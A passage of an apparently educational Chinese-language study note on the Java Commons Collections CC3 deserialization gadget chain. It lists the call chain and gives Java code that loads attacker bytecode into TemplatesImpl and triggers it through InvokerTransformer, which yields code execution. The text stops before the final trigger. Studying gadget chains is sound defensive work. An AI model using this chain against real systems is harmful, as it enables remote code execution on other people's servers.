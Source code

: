 成功弹出计算器,
那之后就可以利用CC1链的执行方式来执行我们构造的templates.newTransformer,
如果用CC1的执行方式，

那么调用链就是：

sun.reflect.annotation.AnnotationInvocationHandler#readObject
org.apache.commons.collections.map.AbstractInputCheckedMapDecorator.MapEntry#setValue
org.apache.commons.collections.map.TransformedMap#checkSetValue
org.apache.commons.collections.functors.ChainedTransformer#transform
org.apache.commons.collections.functors.InvokerTransformer#transform
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#newTransformer
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#getTransletInstance
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#defineTransletClasses
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.TransletClassLoader.defineClass
java.lang.ClassLoader#defineClass

Payload：

需要修改 transformers数组里的内容,
传入templates,
在用InvokerTransformer调用newTransformer方法,
之后就和CC1一样，一直到readObject


<img width="2559" height="1539" alt="image" src="https://github.com/user-attachments/assets/0fa45913-9656-4e6c-9621-8bdd0f5d6625" />

完整代码：

        TemplatesImpl templates = new TemplatesImpl();
        Class TemplateClass = templates.getClass();
        Field name = TemplateClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "123");


        Field bytecodes = TemplateClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\code-audit\\CC3\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodes.set(templates,codes);


        Field tfactory = TemplateClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates,new TransformerFactoryImpl());


        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null,null),


        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);


        HashMap<Object, Object> map = new HashMap();
        map.put("value", "test");
        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, chainedTransformer);
